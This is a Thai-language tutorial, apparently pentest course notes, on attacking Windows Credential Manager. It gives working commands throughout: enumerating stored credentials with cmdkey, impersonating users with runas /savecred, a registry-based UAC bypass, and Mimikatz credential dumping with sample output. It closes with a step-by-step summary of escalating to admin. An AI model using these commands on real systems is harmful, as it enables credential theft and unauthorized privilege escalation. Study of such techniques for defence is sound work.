


# การโจมตี Windows Credential Manager

## ภาพรวม Windows Vault และ Credential Manager

### ความหมาย
**Credential Manager** เป็นฟีเจอร์ที่มีใน Windows ตั้งแต่ Server 2008 R2 และ Windows 7 ที่ช่วยให้ผู้ใช้และแอปพลิเคชันสามารถเก็บ credentials ที่เกี่ยวข้องกับระบบและเว็บไซต์อื่นๆ ได้อย่างปลอดภัย

### ตำแหน่งที่เก็บ Credentials

Credentials จะถูกเก็บใน folder ที่เข้ารหัสเป็นพิเศษ:

```
%UserProfile%\AppData\Local\Microsoft\Vault\
%UserProfile%\AppData\Local\Microsoft\Credentials\
%UserProfile%\AppData\Roaming\Microsoft\Vault\
%ProgramData%\Microsoft\Vault\
%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\
```

---

## โครงสร้างการเข้ารหัส

### Vault Folder Structure

```
Vault Folder
    ├── Policy.vpol (AES keys: AES-128 หรือ AES-256)
    │   └── ป้องกันด้วย DPAPI
    └── Encrypted Credentials
        └── เข้ารหัสด้วย AES keys
```

### การป้องกันเพิ่มเติมใน Windows รุ่นใหม่

**Credential Guard:**
- ใช้ Virtualization-based Security (VBS)
- เก็บ DPAPI master keys ใน secured memory enclaves
- ป้องกันการโจมตีระดับ kernel

---

## ประเภทของ Credentials

| ประเภท | คำอธิบาย | ตัวอย่าง |
|--------|----------|---------|
| **Web Credentials** | Credentials ที่เกี่ยวข้องกับเว็บไซต์และบัญชีออนไลน์ | ใช้โดย Internet Explorer และ Microsoft Edge รุ่นเก่า |
| **Windows Credentials** | Login tokens สำหรับบริการต่างๆ | OneDrive, Domain users, Local network resources, Services, Shared directories |

---
## การ Export Windows Vaults

### วิธีที่ 1: ผ่าน Control Panel
เลือกเมนู Credential Manager แล้วทำการ export



### วิธีที่ 2: ผ่าน Command Line

```cmd
C:\Users\sadams> rundll32 keymgr.dll,KRShowKeyMgr
```


**คุณสมบัติของ Backup:**
- บันทึกเป็นไฟล์ `.crd`
- เข้ารหัสด้วย password ที่ผู้ใช้กำหนด
- สามารถ import ไปยัง Windows systems อื่นได้

---

## วิธีดูว่ามีอะไรบ้าง (ไม่ต้องเป็น Hacker)

### วิธีปกติ (GUI)
1. กด Windows + R
2. พิมพ์ `control /name Microsoft.CredentialManager`
3. จะเห็นรายการรหัสผ่านที่เก็บไว้

### วิธีใช้ Command Line

```cmd
cmdkey /list
```

**ผลลัพธ์:**
```
Currently stored credentials:

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

**แปลว่า:** Windows จำรหัสผ่านของ user `mcharles` ไว้!

---

## ตรงนี้สำคัญ! 🎯

### ถ้าเราเจอแบบนี้:
```
Target: Domain:interactive=SRV01\mcharles
Type: Domain Password
User: SRV01\mcharles
```

→ เราสามารถ**ปลอมตัวเป็น mcharles ได้เลย!** โดยไม่ต้องรู้รหัสผ่าน

### รูปแบบการแสดงผล

| Key | ความหมาย | ตัวอย่าง |
|-----|----------|---------|
| **Target** | ชื่อ resource หรือบัญชีที่ credential ใช้สำหรับ | Domain name, Computer name, หรือ identifier พิเศษ |
| **Type** | ชนิดของ credential | **Generic** (ทั่วไป)<br>**Domain Password** (domain user logons) |
| **User** | บัญชีผู้ใช้ที่เกี่ยวข้อง | SRV01\mcharles |
| **Persistence** | บอกว่า credential บันทึกถาวรหรือไม่ | **Local machine persistence** = อยู่รอดหลัง reboot |

### วิเคราะห์ Credentials ที่พบ

#### 1. Generic Credential (Microsoft Account)

```
Target: WindowsLive:target=virtualapp/didlogical
Type: Generic
User: 02hejubrtyqjrkfi
```

**คำอธิบาย:**
- ใช้โดย Microsoft account/Windows Live services
- Username ที่ดูสุ่ม = internal account ID
- **สามารถเพิกเฉยได้** สำหรับวัตถุประสงค์ของเรา

#### 2. Domain Credential

```
Target: Domain:interactive=SRV01\mcharles
Type: Domain Password
User: SRV01\mcharles
```

**คำอธิบาย:**
- Domain credential ที่เกี่ยวข้องกับ user `SRV01\mcharles`
- **Interactive** = ใช้สำหรับ interactive logon sessions
- **สามารถใช้ในการ impersonate ได้!**

---

### วิธีปลอมตัว:

```cmd
runas /savecred /user:SRV01\mcharles cmd
```

**คำอธิบาย:**
- `runas` = สั่งให้รันโปรแกรมในนามของคนอื่น
- `/savecred` = ใช้รหัสผ่านที่ Windows จำไว้
- `/user:SRV01\mcharles` = ปลอมเป็น mcharles
- `cmd` = เปิด Command Prompt

**ผลลัพธ์:** เราจะได้ Command Prompt ที่เป็น mcharles! ไม่ต้องรู้รหัสผ่าน! 🎉

---

##  Run Mimikatz as an administrator By pass UAC
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```


ใช้ **Mimikatz** (เครื่องมือแฮกเกอร์)

### ขั้นตอน:

```cmd
mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

### ผลลัพธ์

```
Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...
```

---

### การตีความผลลัพธ์

| ฟิลด์ | ความหมาย | ค่า |
|-------|----------|-----|
| **Authentication Id** | ID การยืนยันตัวตน | 630472 |
| **Session** | ประเภท session | RemoteInteractive (RDP) |
| **User Name** | ชื่อผู้ใช้ | mcharles |
| **Domain** | ชื่อ domain | SRV01 |
| **Logon Time** | เวลา logon | 4/27/2025 2:40:32 AM |
| **Username** | บัญชีที่เก็บไว้ | mcharles@inlanefreight.local |
| **Domain** | บริการที่ใช้ | onedrive.live.com |
| **Password** | รหัสผ่านแบบ plaintext | (ถูกซ่อน) |

**ผลลัพธ์:** ได้ **plaintext password** ของ OneDrive account! 🎯

---

## เครื่องมืออื่นๆ ที่ใช้ได้

นอกจาก Mimikatz แล้ว ยังมีเครื่องมืออื่นๆ ที่สามารถใช้ enumerate และ extract stored credentials:

| เครื่องมือ | คำอธิบาย | ข้อดี |
|-----------|----------|-------|
| **SharpDPAPI** | เขียนด้วย C# | ทำงานบน memory, หลบ AV ได้ดี |
| **LaZagne** | เขียนด้วย Python | รองรับหลายแอปพลิเคชัน |
| **DonPAPI** | Remote DPAPI dumper | Dump ได้แบบ remote |

---


## สรุปแบบง่ายๆ

### 3 ขั้นตอนการโจมตี:

```
1. ดูว่ามีรหัสผ่านอะไรเก็บไว้บ้าง
   → cmdkey /list

2. เลือกวิธีโจมตี:
   
   วิธีที่ 1: ปลอมตัว (ไม่ต้องรู้รหัสผ่าน)
   → runas /savecred /user:mcharles cmd
   
   วิธีที่ 2: ขโมยรหัสผ่านจริง
   → mimikatz sekurlsa::credman

3. ใช้รหัสผ่านที่ได้ทำอะไรต่อ
   → เข้าเครื่องอื่น, เข้า OneDrive, etc.
```

---

## ตัวอย่างง่ายๆ

### สถานการณ์:
- เราแฮกเข้าคอมพ์ของ **bob** ได้แล้ว
- bob จำรหัสผ่านของ **admin** ไว้ใน Windows

### ที่เราทำได้:

```cmd
# 1. ดูว่า bob จำรหัสผ่านใครไว้บ้าง
cmdkey /list

# เจอ:
# Target: Domain:interactive=COMPANY\admin
# User: COMPANY\admin

# 2. ปลอมตัวเป็น admin
runas /savecred /user:COMPANY\admin cmd

# 3. ตอนนี้เราเป็น admin แล้ว!
whoami
# Output: company\admin
```

---

## ทำไมถึงอันตราย?

1. **ไม่ต้องรู้รหัสผ่าน** ก็ปลอมตัวได้ (ใช้ runas /savecred)
2. **ได้รหัสผ่านจริง** ถ้าใช้ Mimikatz
3. คนมักจำรหัสผ่านของ:
   - Admin accounts
   - Network shares
   - OneDrive/Cloud services
   - Remote Desktop

---

